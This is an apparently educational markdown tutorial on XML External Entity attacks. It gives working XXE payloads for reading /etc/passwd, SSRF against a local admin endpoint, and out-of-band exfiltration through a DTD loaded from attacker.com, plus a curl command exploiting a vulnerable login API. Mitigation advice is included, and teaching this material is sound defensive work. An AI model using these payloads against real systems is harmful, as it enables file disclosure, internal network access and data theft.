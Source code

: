 # XML External Entity (XXE)

An XML External Entity (XXE) attack is a security vulnerability that targets applications
processing XML input. This attack leverages the behavior of XML parsers that support
external entities, which are references to external or internal resources defined in the XML data.

XXE attacks can be used to:

- Access sensitive files on the server (e.g., `/etc/passwd`).
- Perform server-side request forgery (SSRF) to interact with internal systems.
- Execute denial-of-service (DoS) attacks by causing resource exhaustion.
- Exfiltrate sensitive data or compromise the application's security.

To mitigate XXE attacks, consider:

- Disabling external entity processing in XML parsers.
- Using secure libraries or parsers that do not support external entities by default.
- Validating and sanitizing XML input to prevent malicious payloads.

## How It Works

XML has a feature that allows defining "entities" in a DOCTYPE. These can include external resources such as files or URLs. When an application parses an XML document and the parser is not securely configured, it may:

- Read files on the server.
- Make HTTP requests to internal systems (Server Side Request Forgery - SSRF).
- Leak sensitive data.
- Cause Denial of Service (e.g., via Billion Laughs attack).

## XXE Payload Examples

### 1. File Disclosure

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
    <data>&xxe;</data>
</root>
```

### 2. Server-Side Request Forgery (SSRF)

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "http://localhost:8080/admin">
]>
<root>
    <data>&xxe;</data>
</root>
```

### 3. Out-of-Band Data Exfiltration

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
    <!ENTITY % ext SYSTEM "http://attacker.com/malicious.dtd">
    %ext;
]>
```

## Exploiting a Vulnerable Login API

### Example Scenario: Login via XML

Some websites allow users to log in by sending XML data to an API. For example:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<login>
    <username>admin</username>
    <password>admin123</password>
</login>
```

If the server uses an XML parser that is vulnerable to XXE, an attacker can exploit this to read sensitive files or perform other malicious actions.

### Step-by-Step: XXE Attack to Read a File

To exploit the vulnerability and read a sensitive file (e.g., `/etc/passwd`), the attacker can modify the XML input as follows:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<login>
    <username>&xxe;</username>
    <password>any</password>
</login>
```

### Explanation of the Attack

1. `<!DOCTYPE foo [...]>`: Declares a Document Type Definition (DTD).
2. `<!ENTITY xxe SYSTEM "file:///etc/passwd">`: Defines an external entity that points to the sensitive file.
3. `&xxe;`: Replaces the entity with the contents of the file.

If the server processes this XML and includes the entity, the response might look like this:

```json
{
  "status": "error",
  "username": "root:x:0:0:root:/root:/bin/bash\nuser:x:1000:1000:user:/home/user:/bin/bash"
}
```

This response reveals the contents of `/etc/passwd`, demonstrating the severity of the vulnerability.

### Mitigation Tips

- Disable DTD processing in the XML parser.
- Use a secure XML library that prevents XXE by default.
- Validate and sanitize all XML inputs.
- Implement strict input validation to reject malicious payloads.
- Use JSON or other safer formats for data exchange when possible.
- Monitor and log unusual activity to detect potential attacks.

## Tools and Techniques Used by Attackers

Hackers often bypass the normal website interface and use specialized tools to exploit vulnerabilities like XXE. Common tools include:

- **Postman**: Used to craft and send custom requests with full control over headers and body.
- **cURL**: A command-line tool to send raw XML payloads directly to the server.
- **Burp Suite**: A powerful tool to intercept, modify, and inject malicious payloads into requests.

### Example: Exploiting XXE with cURL

Attackers can use `cURL` to send a malicious XML payload to a vulnerable server. For example:

```bash
curl -X POST https://vulnerable-site.com/api/login \
    -H "Content-Type: application/xml" \
    -d '<?xml version="1.0"?>
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<login>
    <username>&xxe;</username>
    <password>test</password>
</login>'
```

If the server is vulnerable, it might return the contents of `/etc/passwd` or any file accessible to the server.

### Classic XXE vs. Blind XXE

1. **Classic XXE**: The server includes the data in the HTTP response, allowing the attacker to see it immediately.
2. **Blind XXE**: The server sends the data to an external server controlled by the attacker (e.g., via DNS or HTTP). The attacker monitors their server logs to capture the stolen information.

### Mitigation Strategies

- Use tools like Burp Suite to test your application for XXE vulnerabilities.
- Regularly audit your XML parsers and configurations.
- Implement strict security measures as outlined in the mitigation tips above.

## Key Terms

| Term              | Meaning                                           |
| ----------------- | ------------------------------------------------- |
| **XML**           | Markup language for data storage/transfer.        |
| **DTD**           | Document Type Definition (defines XML structure). |
| **Entity**        | Variable or placeholder in XML.                   |
| **SYSTEM Entity** | External reference (e.g., file or URL).           |
| **SSRF**          | Server-Side Request Forgery.                      |
